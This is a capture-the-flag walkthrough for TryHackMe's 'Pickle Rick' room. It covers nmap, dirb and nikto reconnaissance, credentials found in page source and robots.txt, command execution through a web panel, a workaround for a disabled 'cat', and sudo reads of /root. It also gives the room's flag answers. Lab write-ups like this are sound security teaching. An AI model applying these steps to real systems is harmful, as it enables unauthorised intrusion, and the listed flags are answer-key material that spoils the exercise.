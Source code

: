 # Pickle Rick @TryHackMe.com

Difficulty: EASY

Keywords and tools: nmap, nikto, dirb, directory traversal


### ping the target (target IP will be given after you've joined the room)

```
ping 10.10.102.120

PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms
```

### nmap scan

````
sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
````

### Connect to web app with Firefox (http:\\10.10.102.120) and inspect the page source 

You should find
````
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
````

### Check /robots.txt

Found a password?
```
Wubbalubbadubdub
```

### Let's try ssh.

````
ssh R1ckRul3s@10.10.102.120

R1ckRul3s@10.10.102.120: Permission denied (publickey).
````

No success. Will need ssh key.
  
  

### Scan the target for possibly hidden content with dirb

````
dirb http://10.10.102.120/

````
Won't find anything special...

### Lets try nikto

````
nikto -h 10.10.102.120
````

nikto found an /login.php page, lets see it and try to login

````
Open Firefox and go to <target>/login.php
username: R1ckRul3s
password: Wubbalubbadubdub
````

We get a command panel with a command execution box, lets try typing 'whoami'

````
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled
````

Open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt and we have our first flag

``mr. meeseek hair``

Open the http://10.10.102.120/clue.txt ``Look around the file system for the other ingredient.``

### Lets try directory traversal
````
cd ../../../../; ls
cd /home; ls
cd /home/rick; ls
````
We see 'second ingredients', and since cat-command is disabled, lets try 'less'

````
less /home/rick/"second ingredients"
jerry tear
````
And we got our second flag.

Lets see if we have sudo

````
sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: fleeb juice
````

There's the final flag.
